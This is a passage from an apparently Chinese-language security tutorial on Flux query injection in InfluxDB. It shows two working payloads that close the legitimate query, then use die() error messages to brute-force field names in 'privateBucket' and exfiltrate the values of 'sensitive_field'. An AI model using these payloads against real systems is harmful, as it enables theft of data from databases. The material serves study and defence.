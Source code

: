 也就是这个 bucket 中的所有的结构和其对应的数据类型，那么接下来便可以爆破其字段的名称

```plain
") |> yield(name: "1337")
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => r._field =~ /s.*/ and die(msg:r._field))
 //
```

也就是爆破出以`s`开头的字段名称，这个和前面泄露 bucket 名的是一个原理

[![](assets/1706957940-e4f6474bce11475e13f8003ea745f08d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233822-ee7a3b92-c117-1.png)

可以看见这个字段名为：`sensitive_field`  
接下来就是爆其数据了

```plain
") |> yield(name: "1337")
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => r._field == "sensitive_field" and die(msg:string(v:r._value)))
 //
```

注意下这里的数据类型！！不然可能会报错 (放出为 int 类型的时候，**因为 r.field 默认为 int 类型**)

```plain
HttpError: runtime error @2:54-2:124: filter: type conflict: string != int
```

[![](assets/1706957940-538e48dc06f64391a3dd0580645f0d85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233828-f207fa88-c117-1.png)
